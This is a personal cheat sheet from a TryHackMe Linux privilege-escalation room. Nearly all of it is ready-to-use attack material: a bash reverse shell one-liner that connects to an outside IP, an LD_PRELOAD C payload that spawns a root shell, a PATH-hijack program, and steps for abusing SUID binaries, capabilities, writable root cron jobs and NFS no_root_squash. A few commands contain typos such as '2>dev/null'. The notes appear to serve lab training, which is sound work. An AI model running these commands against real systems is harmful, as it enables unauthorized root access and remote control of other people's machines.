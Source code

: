 [Try Hack Me - linuxPrivEsc] 

Privillage Escallation

Nathan Hailu , Sat 23 Apr 2022 06:52:26 AM EDT


===========commands===================
> to check if program exists
		- which $yourprogram
> to give sudo -l access
	add the following in sudoers file udner #includedir
		- username ALL=(ALL:ALL) /usr/bin/pico
> shell commands
	  - python -c 'import pty; pty.spawn("/bin/sh")'
	  - export TERM=xterm
> Bash NC command
		- bash -i >& /dev/tcp/10.0.0.1/8080 0>&1	  
1) Kernel exploit

	-Find The kernel Version on ExploitDB if you got any exploits
-----------------------------------------------------------------

2) LD-preload

  -LD_PRELOAD is a function that allows any program to use shared libraries
	~ sudo -l  -> find text "env_keep+=LD_PRELOAD"
	~ Write a simple C code compiled as a share object (.so extension) file
				#include <stdio.h>
				#include <sys/types.h>
				#include <stdlib.h>

				void _init() {
				unsetenv("LD_PRELOAD");
				setgid(0);
				setuid(0);
				system("/bin/bash");
				}		 
	~ gcc -fPIC -shared -o shell.so shell.c -nostartfiles
	~ sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
-----------------------------------------------------------------	
3) SUID vuln

	~ find / -type f -perm -04000 -ls 2>/dev/null
		-> The programs listed in the result of the aboves program can excute any thing with out root for exploiting Commands Check [GFObins] site under SUID vuln. 
-----------------------------------------------------------------
4) Capabilities
	
	~ getcap -r / 2>dev/null
		-> The programs listed in the result of the aboves program can excute any thing with out root for exploiting Commands Check [GFObins] site under Capabilities. 
-----------------------------------------------------------------
5) crontab
	~ cat /etc/crontab
	  -> programs listed with 
	  			" * * * * * root /home/$myprogram" 
	  					means will run myprogram with root access everysecond. so changing the content of my program to a reverse shell exploit will give as a access. 
-----------------------------------------------------------------
6) PATH exploiting

	~ create a c program in your home, with name "path"
			#include<unistd.h>
			void main()
			{ setuid(0);
				setgid(0);
				system("somefile");
			}
		~ find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u    -> Will give you foldernames that is writtable
	~ export PATH=/yourfolder:$PATH
	~ make a bash program in $yourfolder
			echo "/bin/bash" > somefile
			chmod 777 somefile
	~ run your 1st code "./path"

-----------------------------------------------------------------
7) NFS(Network File Sharing) server Exploit
	
	~ cat /etc/exports  -> check if there is folder with"no_root_squash"
	* showmount -e $VictimIP -> will show you folders "folderNFS"
	* mkdir /tmp/victimfiles
	* mount -o rw $VictimIP:/folderNFS /tmp/victimfiles
	* Create a c script for reverse shell gaining
	* compile it with gcc
	*	give it permission(+s)
	~ exeute the script from victim shell

-----------------------------------------------------------------